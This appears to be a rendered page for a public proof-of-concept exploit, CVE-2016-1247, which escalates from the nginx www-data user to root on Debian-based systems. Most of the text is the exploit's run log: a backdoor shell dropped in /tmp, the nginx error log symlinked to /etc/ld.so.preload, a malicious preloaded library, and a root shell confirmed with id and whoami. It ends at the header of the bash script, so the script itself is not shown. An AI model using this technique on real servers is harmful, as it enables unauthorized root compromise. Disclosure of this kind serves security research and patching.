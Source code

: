     Nginx (Debian-based distros) - Root Privilege Escalation PoC Exploit (CVE-2016-1247) 
    nginxed-root.sh (ver. 1.0)

    Discovered and coded by: 

    Dawid Golunski 
    https://legalhackers.com 

    [+] Starting the exploit as: 
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

    [+] Backdoor/low-priv shell installed at: 
    -rwxr-xr-x 1 www-data www-data 1021112 Nov 19 13:44 /tmp/nginxrootsh

    [+] The server appears to be (N)jinxed (writable logdir) ! :) Symlink created at: 
    lrwxrwxrwx 1 www-data www-data 18 Nov 19 13:44 /var/log/nginx/error.log -> /etc/ld.so.preload

    [+] Waiting for Nginx service to be restarted (-USR1) by logrotate called from cron.daily at 6:25am...
    [+] Nginx restarted. The /etc/ld.so.preload file got created with web server privileges: 
    -rw-r--r-- 1 www-data root 19 Nov 19 13:45 /etc/ld.so.preload

    [+] Adding /tmp/privesclib.so shared lib to /etc/ld.so.preload

    [+] The /etc/ld.so.preload file now contains: 
    /tmp/privesclib.so

    [+] Escalating privileges via the /usr/bin/sudo SUID binary to get root!
    -rwsrwxrwx 1 root root 1021112 Nov 19 13:44 /tmp/nginxrootsh

    [+] Rootshell got assigned root SUID perms at: 
    -rwsrwxrwx 1 root root 1021112 Nov 19 13:44 /tmp/nginxrootsh

    The server is (N)jinxed ! ;) Got root via Nginx!

    [+] Spawning the rootshell /tmp/nginxrootsh now! 

    nginxrootsh: cannot set terminal process group (1156): Inappropriate ioctl for device
    nginxrootsh: no job control in this shell
    nginxrootsh-4.3# id
    id
    uid=33(www-data) gid=33(www-data) euid=0(root) groups=0(root),33(www-data)
    nginxrootsh-4.3# whoami
    whoami
    root
    nginxrootsh-4.3# whoami
    whoami
    root

### poc

    #!/bin/bash
    #
    # Nginx (Debian-based distros) - Root Privilege Escalation PoC Exploit
    # nginxed-root.sh (ver. 1.0)
    #
    # CVE-2016-1247
    #
    # Discovered and coded by:
    #
    # Dawid Golunski